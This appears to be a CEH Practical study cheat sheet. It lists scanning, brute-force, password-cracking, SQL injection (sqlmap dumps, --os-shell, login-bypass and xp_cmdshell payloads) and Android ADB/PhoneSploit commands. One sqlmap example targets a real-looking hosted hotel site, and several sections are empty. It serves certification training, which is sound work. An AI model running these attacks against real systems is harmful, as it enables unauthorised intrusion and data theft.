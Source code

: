 Reference: 
>https://github.com/DarkLycn1976/CEH-Practical-Notes-and-Tools
>https://github.com/hunterxxx/CEH-v12-Practical
>https://medium.com/@abdulmajidjamil/ceh-practical-lpt-master-ctf-notes-in-general-d0cb7007dacd
>https://immpetus.gitbook.io/ceh-practical/nmap-tool
>https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
>https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main
>https://emn178.github.io/online-tools/
>https://github.com/sandflysecurity/sandfly-entropyscan.git
> MQTT
# Scanning

<details>
  <summary>Netdiscover</summary>


## Netdiscover 
  
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
</details>

<details>
  <summary>Nmap</summary>

 * NMAP Scripts
```console
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

 * Certain port scans
```console
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput 10.10.10.10
```

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```

</details>

# If web service detected:
<details>
 
  <summary>Enumerate:</summary>

Gobuster
  
```shell
gobuster -e -u http://10.10.10.10 -w wordlsit.txt
```
If have subdomain: 

```shell
gobuster vhost -v -w /home/username/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://workers.htb -o vhosts.txt --append-domain

• if you don't "--append-domain", you might not find anything
```
</details>


<details>
<summary>
Find out if have wordPress:</summary>
  
```shell
Download Web plugin/extension: Wappalyzer:
https://www.wappalyzer.com/apps/
```
</details>



# Credential / Password Attacks
<details>
   <summary>Bruteforce SMB</summary>

* SMB Cracking with Hydra
  
```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```
* SMB Cracking with Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
</details>


  </details>

<details>
  <summary>Bruteforce SSH</summary>
  
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
</details>

<details>
  <summary>Bruteforce TELNET</summary>
  
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
</details>

<details>
  <summary>Bruteforce FTP</summary>

```console
    TRY user "annoymous" + no password
  ```
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

• If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

• Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt


```
</details>

<details>
 <summary>Password Cracking - John</summary>

```console
john --single --format=md5crypt crack.txt
```
</details>

<details>
 <summary>Password Cracking - Hashcat</summary>

```console
Hashcat
```
</details>

<details>
 <summary>Password Cracking - WIFI Encryption </summary>

```console
aircrack-ng pcap.cap -w /usr/share/wordlists/rockyou.txt
```

</details>

# Vulnerability Scanning 

<details>
  <summary>Nessus</summary>
  
```console
Nessus runs on https[:]//localhost[:]8834
```
</details>

<details>
  <summary>Nikto</summary>
  
```console
nikto -h 
```
</details>

# Hidden text

<details>
  <summary>Snow</summary>
  
```console
snow -C -p "magic" readme2.txt
```
</details>

<details>
<summary>Steghide</summary>

```console
```
</details>




# WIRESHARK
<details>

  ```shell
    select_packet > follow > TCP Stream
  ```
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS, go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
View Flood attack on victim via Wireshark 
```console
•	| use filter tcp.port=21 
 ```
https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
</details>



# SQL

<details>

```console
SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

Other SQLi
```shell
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```


SQLMAP

```shell
* For finding DBs:
sqlmap -u "------/id=1" --dbs --batch
sqlmap -u "https://bliss-hotel.000webhostapp.com/room_details.php?room_type_id=RM101" --dbs --batch

* Find DBs 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch

* Find Tables =
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch

* Find columns = 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch

* Dump table =
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch

* Dump the DB =
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch

* Using cookies : 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx' --random-agent --level=1 --risk=3 --dbs --batch

* manual SQL Injection
in login page enter blah' or 1=1-- as username and click login without entering the password

* GET access of OS Shell = 
sqlmap -u 'url' --dbms=mysql --os-shell SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell
```

</details>
</details>


# Hidden text in image

<details>
  <summary> Snow </summary>
```console
  SNOW.EXE -C -p test hide.txt
```

</details>




# VERACRYPT 

<details>
 <summary> Bruteforce Veracrypt Encryption using hashcat </summary>

```console
Download hashcat binary: https://hashcat.net/hashcat/
Download 7zip to extract: https://www.7-zip.org/
```
> hashcat.exe --help
> 
> look for Veracrypt encryption, select option
> hashcat.exe -a 3 -w 1 -m 13721 ..\<file_path>\<hash> ?d?d?d?d

> https://github.com/frizb/Hashcat-Cheatsheet


</details>




# CUSTOM WORDLIST 

<details>
<summary>Cewl</summary>
  
* cewl is the tool, example.com is the site, -m is to specify the minimum length of the word , -w is to specify the output file
  
```console
cewl example.com -m 5 -w words.txt
```
</details>



# MOBILE 

<details>
  <summary>ADB</summary>
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>

<details>
  <summary>PhoneSploit</summary>
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>

# 



# resources 



